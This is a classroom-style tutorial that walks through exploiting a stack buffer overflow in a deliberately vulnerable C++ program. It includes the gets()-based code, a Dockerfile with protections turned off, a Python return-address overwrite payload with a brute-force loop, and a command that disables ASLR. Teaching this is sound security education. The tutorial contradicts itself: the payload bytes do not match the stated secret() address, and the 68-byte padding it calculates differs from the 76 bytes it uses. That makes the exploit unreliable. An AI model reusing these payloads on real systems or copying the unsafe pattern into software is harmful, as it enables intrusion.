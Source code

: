 # 🛡️ Teaching Buffer Overflow in C++

👨‍🏫 **Objective**: Understand how unsafe input functions in C/C++ can be exploited to alter program flow.

---

## 🧠 What You’re About to Do

We'll exploit a simple C++ program that:

1. Uses `gets()` (unsafe)
2. Has a 64-byte buffer on the stack
3. Fails to check input size

👾 **Goal**: Redirect execution to a hidden `secret()` function.

---

## 🧪 The Vulnerable Code

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>

void secret() {
    std::cout << "Access granted to secret!\n";
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    std::cout << "Enter text: ";
    gets(buffer);  // 💣 buffer overflow possible here!
}

int main() {
    vulnerable();
    return 0;
}
```

---

## 🐳 Set Up the Environment

```dockerfile
FROM ubuntu:12.04

RUN sed -i 's|archive.ubuntu.com|old-releases.ubuntu.com|g' /etc/apt/sources.list && \
    apt-get update && apt-get install -y build-essential gdb && apt-get clean

COPY vuln.cpp /vuln.cpp
RUN g++ -fno-stack-protector -z execstack vuln.cpp -o vuln
CMD ["/bin/bash"]
```

---

## 🔍 Step 1: Find `secret()` Address

Run:

```bash
gdb ./vuln
```

Then in `gdb`:

```gdb
info functions secret
```

Example output:

```
0x080484b6  secret()
```

---

## 🧮 Step 2: Calculate Overflow

Stack layout in `vulnerable()`:

```
[ buffer (64 bytes) ]
[ saved EBP (4 bytes) ]
[ return address (4 bytes) ] 👈 we overwrite this
```

➡️ Total: **68 bytes padding** + 4 bytes address

---

## 💥 Step 3: Craft the Payload

Assuming `secret()` is at `0x080484b6`:

```bash
python -c 'print "A"*76 + "\x74\x86\x04\x08"' > payload
```
or:

```bash
for i in $(seq 60 78); do
  echo "Trying offset: $i"
  python -c "print 'A'*$i + '\x74\x86\x04\x08'" > payload
  ./vuln < payload && echo "💥 Success at offset $i!"
done
```


Run the attack:

```bash
./vuln < payload
```

💡 If successful: you get a shell!

---

## 🚧 Disable ASLR (for predictability)

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

This ensures addresses like `0x080484b6` are stable.

---

## 🧠 Learning Takeaways

✅ Stack layout  
✅ Unsafe input = security risk  
✅ Return address hijack  
✅ Importance of memory-safe coding

---

## 🙏 Use Responsibly

- **For educational purposes only**
- Never exploit systems without permission
- Use modern practices: `fgets`, stack canaries, ASLR, PIE, etc.

---

# 🎓 Thank You!

Questions?  
Let's explore secure coding together!
